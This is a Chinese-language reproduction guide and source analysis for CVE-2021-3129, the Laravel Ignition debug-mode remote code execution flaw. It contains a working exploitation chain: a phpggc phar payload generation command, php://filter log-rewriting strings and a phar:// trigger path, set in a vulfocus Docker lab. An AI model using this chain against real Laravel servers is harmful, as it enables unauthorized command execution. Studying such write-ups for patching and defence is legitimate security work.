# Laravel Debug mode 远程代码执行漏洞（CVE-2021-3129）by [anxianglang](https://github.com/anxianglang) 

## 概述

Laravel是一套简洁、开源的PHP Web开发框架，旨在实现Web软件的MVC架构。

Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

## 漏洞复现

### 1. **漏洞环境**

（1）打开vulfocus：http://vulfocus.fofa.so/



（2）查找漏洞编号



（3）点击启动即可生成镜像



（4）也可以在docker hub库中搜索vulfocus镜像


（5）选择想要下载的docker环境，点击进去复制下载路径



（6）然后在kail上执行复制路径就可以直接下载

`docker pull vulfocus/laravel-cve_2021_3129`

（7）下载完毕之后就保存在本地的docker库中

`docker images` 

（8）可以用docker run命令直接启动漏洞环境了

`docker run -d -p 8080:8080 vulfocus/laravel-cve_2021_3129`

（9）访问http://ip:8080

### 2. **复现思路**

（1）清空log

（2）写入phar

（3）读取phar

### 3. **漏洞调试复现**

（1）在laravel的依赖里面找一条能够rce的链，如monolog/rce1。生成对应的phar文件，并将phar文件base64编码。

```
php -d 'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())"
```



（2）清空log文件

```
php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```



（3）给log添加一个前缀

`viewFile: AA`



（4）将编完码后的字符写入log中



注意：因为每次payload都会写入两次，所有请在payload最后面加上一个字母a，只让payload生效一次

（5）然后清除干扰字符好进行反序列化

```
php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```


（6）触发phar反序列化执行命令

`phar:///Applications/MxSrvs/www/laravel/storage/logs/laravel.log/test.txt`



注意：只有在编辑log的时候返回的是500，其他时候都是200，如有特殊情况需要从第一步从新开始

（7）如果上述方法太复杂也可利用Exp来复现漏洞，输入目标ip和端口

用python3运行脚本



注意：Exp脚本要和phpggc文件夹在同一目录下，还要给phpggc执行权限，否则无法复现

（8）Goby中也有该漏洞的Poc用来验证漏洞



如果您有自己的Poc也可以通过Goby提交来获得奖金



## **源码分析**

漏洞其实就是发生在上面提到的Ignition（<=2.5.1）中，Ignition默认提供了以下几个solutions。

通过这些solutions，开发者可以通过点击按钮的方式，快速修复一些错误。本次漏洞就是其中的vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php过滤不严谨导致的。首先我们到执行solution的控制器当中去，看看是如何调用到solution的

```
<?php
namespace Facade\Ignition\Http\Controllers;
use Facade\Ignition\Http\Requests\ExecuteSolutionRequest;
use Facade\IgnitionContracts\SolutionProviderRepository;
use Illuminate\Foundation\Validation\ValidatesRequests;
class ExecuteSolutionController

{
  use ValidatesRequests;
  public function __invoke(
​    ExecuteSolutionRequest $request,
​    SolutionProviderRepository $solutionProviderRepository

  ) {

​    $solution = $request->getRunnableSolution();
​    $solution->run($request->get('parameters', []));
​    return response('');

  }

}
```

接着调用solution对象中的run()方法，并将可控的parameters参数传过去。通过这个点我们可以调用到MakeViewVariableOptionalSolution::run()

```
<?php

namespace Facade\Ignition\Solutions;

use Facade\IgnitionContracts\RunnableSolution;

use Illuminate\Support\Facades\Blade;

class MakeViewVariableOptionalSolution implements RunnableSolution

{

  ...

  public function run(array $parameters = [])

  {

​    $output = $this->makeOptional($parameters);

​    if ($output !== false) {

​      file_put_contents($parameters['viewFile'], $output);

​    }

  }

  public function makeOptional(array $parameters = [])

  {

​    $originalContents = file_get_contents($parameters['viewFile']);

​    

​    $newContents = str_replace('$'.$parameters['variableName'], '$'.$parameters['variableName']." ?? ''", $originalContents);

​    $originalTokens = token_get_all(Blade::compileString($originalContents));

​    $newTokens = token_get_all(Blade::compileString($newContents));

​    $expectedTokens = $this->generateExpectedTokens($originalTokens, $parameters['variableName']);

​    if ($expectedTokens !== $newTokens) {

​      return false;

​    }

​    return $newContents;

  }

  protected function generateExpectedTokens(array $originalTokens, string $variableName): array

  {

​    $expectedTokens = [];

​    foreach ($originalTokens as $token) {

​      $expectedTokens[] = $token;

​      if ($token[0] === T_VARIABLE && $token[1] === '$'.$variableName) {

​        $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];

​        $expectedTokens[] = [T_COALESCE, '??', $token[2]];

​        $expectedTokens[] = [T_WHITESPACE, ' ', $token[2]];

​        $expectedTokens[] = [T_CONSTANT_ENCAPSED_STRING, "''", $token[2]];

​      }

​    }

​    return $expectedTokens;

  }

}
```

可以看到这里主要功能点是：读取一个给定的路径，并替换$variableName为$variableName ?? ''，之后写回文件中。由于这里调用了file_get_contents()，且其中的参数可控，所以这里可以通过phar://协议去触发phar反序列化。如果后期利用框架进行开发的人员，写出了一个文件上传的功能。那么我们就可以上传一个恶意phar文件，利用上述的file_get_contents()去触发phar反序列化，达到rce的效果。

## 参考

https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g

